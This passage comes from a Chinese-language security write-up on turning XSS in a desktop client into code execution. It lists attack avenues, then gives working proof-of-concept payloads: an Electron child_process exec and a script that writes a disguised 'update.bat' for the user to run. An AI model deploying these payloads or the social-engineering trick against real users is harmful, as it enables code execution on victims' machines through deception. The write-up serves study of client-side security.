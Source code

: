 针对插件化架构（如VSCode扩展），通过XSS注入恶意插件代码实现持久化。  
  
**5. 横向移动与组合攻击**  
- **自定义协议滥用（Deep Link）**  
：  
  
利用myapp://  
协议调用其他应用，结合已知漏洞链扩大攻击面（如启动存在RCE漏洞的PDF阅读器）。  
- **内存漏洞触发**  
：  
  
通过XSS精准覆盖缓冲区，触发客户端依赖库的0day漏洞（如旧版Chromium漏洞）。  
  
**6. 社会工程增强**  
- **高仿系统弹窗**  
：  
  
利用客户端GUI特性伪造系统权限请求窗口（如"输入密码以更新"），诱导用户泄露敏感信息。  
- **本地网络探测**  
：  
  
通过WebRTC  
获取内网IP，扫描局域网设备（如路由器管理界面），结合默认凭据进一步渗透。  
## 曲线救国  
  
一下列举了这么多利用思路，好多我也不会哈哈，不过没关系，遇到了再去利用再去深入学习嘛  
  
于是我尝试看看我这个案例能不能RCE呢……  
  
其实最直接RCE的方式就是，当客户端基于Electron框架且未启用nodeIntegration: false  
等安全配置时，直接就能构造出RCE的payload了，而且可以做到无感RCE，就是不需要用户有过多的交互。  
```
ounter(line
<input style=content-visibility:auto oncontentvisibilityautostatechange="require('child_process').exec('calc.exe')">
```  
  
但是……很遗憾，这个工具不是基于Electron框架开发的，上面的payload不适用。那么就基本无法实现无感RCE了  
  
不过可以这样，曲线救国，实现一个比较鸡肋的"RCE"，就是需要用户的一些交互才能完成。  
  
比如，写入一个bat文件，取名叫什么update.bat，欺骗用户保存bat文件，并点击运行，严格来说不能算真正的RCE，因为客户端的RCE强调无感，我这个只能算曲线救国  
  
我们直接构造一个写入bat文件的payload（但是需要用户手动保存）  
```
ounter(line
<input style=content-visibility:auto oncontentvisibilityautostatechange="(async()=>{const f=await window.showSaveFilePicker({suggestedName:'update.bat',types:[{accept:{'application/bat':['.bat']}}]});const w=await f.createWritable();await w.write('start /min calc.exe');await w.close();})()">
```  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
(async()=>{
  const f = await window.showSaveFilePicker({
    suggestedName: 'update.bat',
    types: [{accept: {'application/bat': ['.bat']}}]
  });
  const w = await f.createWritable(); 
 //创建可写流，f.createWritable()生成写入流，避免一次性加载内容到内存。
  await w.write('start /min calc.exe'); 
//写入恶意命令，start /min calc.exe 会以最小化窗口启动计算器，实际攻击中可替换为恶意脚本
  await w.close();
})()
```  
- 简单分析一下payload的逻辑：  
  